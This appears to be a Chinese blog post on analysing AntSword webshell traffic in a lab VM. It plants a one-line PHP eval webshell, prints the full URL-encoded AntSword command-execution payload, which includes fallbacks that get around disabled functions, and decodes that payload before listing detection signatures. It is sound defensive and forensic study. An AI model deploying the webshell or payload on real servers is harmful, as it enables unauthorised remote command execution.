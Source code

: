 ```yaml
---
title: "蚁剑流量分析和溯源"
description: "Webshell分析---蚁剑流量分析和溯源"
date: 2024-01-15
tags:
  - "webshell"
  - "蚁剑"
  - "流量分析"
  - "应急响应"
authors:
  - "bx"
draft: false
slug: "k8x9w22"
---
```


<meta name="referrer" content="no-referrer">



# 蚁剑流量分析和溯源

## 环境配置

:::info
采用的是 Ubuntu 虚拟机 加上 window + wireshark 的方式

:::

这里采用的桥连接

主要是配个 apache+php 环境

```bash
sudo apt update
sudo apt install apache2 -y
sudo apt install php libapache2-mod-php -y
sudo systemctl restart apache2
```

创建一个 PHP 漏洞

```bash
echo "<?php @eval(\$_POST['ant']); ?>" | sudo tee /var/www/html/shell.php
```

可以命令行查看 ip

```bash
ip addr
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744732099048-bd7444f5-55ef-4c0c-a0ca-ad982160e3ca.png)

打开 wireshark，，规则捕捉 VMnet8

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744734750519-523f287c-2618-4fe1-9b03-4fd1acad7df9.png)

打开 yijian

连接 Ubuntu 漏洞

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744734797818-575b20cc-9388-4414-a168-9d278ed44c44.png)

具体效果如下

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744734712242-33d40c25-6b4c-4dda-b6f9-d89653532ba0.png)



## 流量特征分析

### 总结

1. 每个请求都以“0”开头
2. 对于响应包来说，我们采用默认的话，就是额外字符加返回结果，查询结果是随机数 结果 随机数

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744733826623-0c816d10-6dd7-4578-87a6-374003b7788c.png)

3.  以 HTTP POST 请求为主  （这个其实都一样）
4.  请求体参数化，常带有随机键名  







### 测试过程

#### 执行命令

> 蚁剑与网站进行数据交互的过程中，发送的数据是经过编码器编码后再发送，支持的编码方式有default默认的、base64、chr、chr16、rot13；网站返回的数据经过解码器中的编码方式编码后返回，支持的编码方式有default、base64、rot13

解码和编码器都是 default

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744733250271-1ea78baf-75b0-4bd0-8e39-efc744098d63.png)

```bash
whoami
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744733204332-9836ef08-6a8a-4b55-8987-a3f283462ddc.png)

Wireshark 追踪 TCP 流

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744733135947-8521b612-3df9-4830-83df-05960e60f0bf.png)

```plain
ant=%40ini_set(%22display_errors%22%2C%20%220%22)%3B%40set_time_limit(0)%3B%24opdir%3D%40ini_get(%22open_basedir%22)%3Bif(%24opdir)%20%7B%24ocwd%3Ddirname(%24_SERVER%5B%22SCRIPT_FILENAME%22%5D)%3B%24oparr%3Dpreg_split(base64_decode(%22Lzt8Oi8%3D%22)%2C%24opdir)%3B%40array_push(%24oparr%2C%24ocwd%2Csys_get_temp_dir())%3Bforeach(%24oparr%20as%20%24item)%20%7Bif(!%40is_writable(%24item))%7Bcontinue%3B%7D%3B%24tmdir%3D%24item.%22%2F.c27656278a11%22%3B%40mkdir(%24tmdir)%3Bif(!%40file_exists(%24tmdir))%7Bcontinue%3B%7D%24tmdir%3Drealpath(%24tmdir)%3B%40chdir(%24tmdir)%3B%40ini_set(%22open_basedir%22%2C%20%22..%22)%3B%24cntarr%3D%40preg_split(%22%2F%5C%5C%5C%5C%7C%5C%2F%2F%22%2C%24tmdir)%3Bfor(%24i%3D0%3B%24i%3Csizeof(%24cntarr)%3B%24i%2B%2B)%7B%40chdir(%22..%22)%3B%7D%3B%40ini_set(%22open_basedir%22%2C%22%2F%22)%3B%40rmdir(%24tmdir)%3Bbreak%3B%7D%3B%7D%3B%3Bfunction%20asenc(%24out)%7Breturn%20%24out%3B%7D%3Bfunction%20asoutput()%7B%24output%3Dob_get_contents()%3Bob_end_clean()%3Becho%20%22fc689%22.%22900e3%22%3Becho%20%40asenc(%24output)%3Becho%20%2229eac8%22.%22fa1502%22%3B%7Dob_start()%3Btry%7B%24p%3Dbase64_decode(substr(%24_POST%5B%22k1ec9ed6804696%22%5D%2C2))%3B%24s%3Dbase64_decode(substr(%24_POST%5B%22k99eb9fde3781e%22%5D%2C2))%3B%24envstr%3D%40base64_decode(substr(%24_POST%5B%22ndb0b51fc34194%22%5D%2C2))%3B%24d%3Ddirname(%24_SERVER%5B%22SCRIPT_FILENAME%22%5D)%3B%24c%3Dsubstr(%24d%2C0%2C1)%3D%3D%22%2F%22%3F%22-c%20%5C%22%7B%24s%7D%5C%22%22%3A%22%2Fc%20%5C%22%7B%24s%7D%5C%22%22%3Bif(substr(%24d%2C0%2C1)%3D%3D%22%2F%22)%7B%40putenv(%22PATH%3D%22.getenv(%22PATH%22).%22%3A%2Fusr%2Flocal%2Fsbin%3A%2Fusr%2Flocal%2Fbin%3A%2Fusr%2Fsbin%3A%2Fusr%2Fbin%3A%2Fsbin%3A%2Fbin%22)%3B%7Delse%7B%40putenv(%22PATH%3D%22.getenv(%22PATH%22).%22%3BC%3A%2FWindows%2Fsystem32%3BC%3A%2FWindows%2FSysWOW64%3BC%3A%2FWindows%3BC%3A%2FWindows%2FSystem32%2FWindowsPowerShell%2Fv1.0%2F%3B%22)%3B%7Dif(!empty(%24envstr))%7B%24envarr%3Dexplode(%22%7C%7C%7Casline%7C%7C%7C%22%2C%20%24envstr)%3Bforeach(%24envarr%20as%20%24v)%20%7Bif%20(!empty(%24v))%20%7B%40putenv(str_replace(%22%7C%7C%7Caskey%7C%7C%7C%22%2C%20%22%3D%22%2C%20%24v))%3B%7D%7D%7D%24r%3D%22%7B%24p%7D%20%7B%24c%7D%22%3Bfunction%20fe(%24f)%7B%24d%3Dexplode(%22%2C%22%2C%40ini_get(%22disable_functions%22))%3Bif(empty(%24d))%7B%24d%3Darray()%3B%7Delse%7B%24d%3Darray_map('trim'%2Carray_map('strtolower'%2C%24d))%3B%7Dreturn(function_exists(%24f)%26%26is_callable(%24f)%26%26!in_array(%24f%2C%24d))%3B%7D%3Bfunction%20runshellshock(%24d%2C%20%24c)%20%7Bif%20(substr(%24d%2C%200%2C%201)%20%3D%3D%20%22%2F%22%20%26%26%20fe('putenv')%20%26%26%20(fe('error_log')%20%7C%7C%20fe('mail')))%20%7Bif%20(strstr(readlink(%22%2Fbin%2Fsh%22)%2C%20%22bash%22)%20!%3D%20FALSE)%20%7B%24tmp%20%3D%20tempnam(sys_get_temp_dir()%2C%20'as')%3Bputenv(%22PHP_LOL%3D()%20%7B%20x%3B%20%7D%3B%20%24c%20%3E%24tmp%202%3E%261%22)%3Bif%20(fe('error_log'))%20%7Berror_log(%22a%22%2C%201)%3B%7D%20else%20%7Bmail(%22a%40127.0.0.1%22%2C%20%22%22%2C%20%22%22%2C%20%22-bv%22)%3B%7D%7D%20else%20%7Breturn%20False%3B%7D%24output%20%3D%20%40file_get_contents(%24tmp)%3B%40unlink(%24tmp)%3Bif%20(%24output%20!%3D%20%22%22)%20%7Bprint(%24output)%3Breturn%20True%3B%7D%7Dreturn%20False%3B%7D%3Bfunction%20runcmd(%24c)%7B%24ret%3D0%3B%24d%3Ddirname(%24_SERVER%5B%22SCRIPT_FILENAME%22%5D)%3Bif(fe('system'))%7B%40system(%24c%2C%24ret)%3B%7Delseif(fe('passthru'))%7B%40passthru(%24c%2C%24ret)%3B%7Delseif(fe('shell_exec'))%7Bprint(%40shell_exec(%24c))%3B%7Delseif(fe('exec'))%7B%40exec(%24c%2C%24o%2C%24ret)%3Bprint(join(%22%0A%22%2C%24o))%3B%7Delseif(fe('popen'))%7B%24fp%3D%40popen(%24c%2C'r')%3Bwhile(!%40feof(%24fp))%7Bprint(%40fgets(%24fp%2C2048))%3B%7D%40pclose(%24fp)%3B%7Delseif(fe('proc_open'))%7B%24p%20%3D%20%40proc_open(%24c%2C%20array(1%20%3D%3E%20array('pipe'%2C%20'w')%2C%202%20%3D%3E%20array('pipe'%2C%20'w'))%2C%20%24io)%3Bwhile(!%40feof(%24io%5B1%5D))%7Bprint(%40fgets(%24io%5B1%5D%2C2048))%3B%7Dwhile(!%40feof(%24io%5B2%5D))%7Bprint(%40fgets(%24io%5B2%5D%2C2048))%3B%7D%40fclose(%24io%5B1%5D)%3B%40fclose(%24io%5B2%5D)%3B%40proc_close(%24p)%3B%7Delseif(fe('antsystem'))%7B%40antsystem(%24c)%3B%7Delseif(runshellshock(%24d%2C%20%24c))%20%7Breturn%20%24ret%3B%7Delseif(substr(%24d%2C0%2C1)!%3D%22%2F%22%20%26%26%20%40class_exists(%22COM%22))%7B%24w%3Dnew%20COM('WScript.shell')%3B%24e%3D%24w-%3Eexec(%24c)%3B%24so%3D%24e-%3EStdOut()%3B%24ret.%3D%24so-%3EReadAll()%3B%24se%3D%24e-%3EStdErr()%3B%24ret.%3D%24se-%3EReadAll()%3Bprint(%24ret)%3B%7Delse%7B%24ret%20%3D%20127%3B%7Dreturn%20%24ret%3B%7D%3B%24ret%3D%40runcmd(%24r.%22%202%3E%261%22)%3Bprint%20(%24ret!%3D0)%3F%22ret%3D%7B%24ret%7D%22%3A%22%22%3B%3B%7Dcatch(Exception%20%24e)%7Becho%20%22ERROR%3A%2F%2F%22.%24e-%3EgetMessage()%3B%7D%3Basoutput()%3Bdie()%3B&k1ec9ed6804696=spL2Jpbi9zaA%3D%3D&k99eb9fde3781e=zoY2QgIi92YXIvd3d3L2h0bWwiO3dob2FtaTtlY2hvIGE5MDA4YjM7cHdkO2VjaG8gYTczOGUzZGI%3D&ndb0b51fc34194=4z
```

先 url 解码，比如说我们对最后一个 base64 处理

```plain
zoY2QgIi92YXIvd3d3L2h0bWwiO3dob2FtaTtlY2hvIGE5MDA4YjM7cHdkO2VjaG8gYTczOGUzZGI%3D&ndb0b51fc34194=4z

# 删除前面的zo

Y2QgIi92YXIvd3d3L2h0bWwiO3dob2FtaTtlY2hvIGE5MDA4YjM7cHdkO2VjaG8gYTczOGUzZGI
--->
cd "/var/www/html";whoami;echo a9008b3;pwd;echo a738e3db
```



#### chr 编码 + rot13 回显

> 其实总体来说，所以逻辑和格式都是一样的，就是发包和收包的编码格式不一样，我的理解是就是加一层编解码处理

情况如下

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744734231165-2395ca2c-b668-49aa-a25c-002eea005734.png)

rot13 回显如下

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744734390710-238abec6-a058-4f46-b096-f7ce8294b1bd.png)

解码如下

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744734426799-d4397a64-b4fd-40b5-a5a3-a98e6ecde36f.png)



## 附件

### rot13 解码脚本

```python
import codecs

def rot13_decode(text):
    try:
        decoded_text = codecs.decode(text, 'rot_13')
        return decoded_text
    except Exception as e:
        print(f"解码时发生错误: {e}")
        return None

if __name__ == "__main__":
    while True:
        encoded_text = input("请输入要进行 ROT13 解码的文本 (输入 'quit' 退出): ")
        if encoded_text.lower() == 'quit':
            break
        decoded_result = rot13_decode(encoded_text)

        if decoded_result is not None:
            print(f"ROT13 解码结果: {decoded_result}\n")
    print("脚本已退出。")

def rot13_manual(text):
    result = []
    for char in text:
        char_code = ord(char)
        if 'A' <= char <= 'Z':
            new_code = ord('A') + (char_code - ord('A') + 13) % 26
            result.append(chr(new_code))
        elif 'a' <= char <= 'z':
            new_code = ord('a') + (char_code - ord('a') + 13) % 26
            result.append(chr(new_code))
        else:
            result.append(char)

    return "".join(result)

```


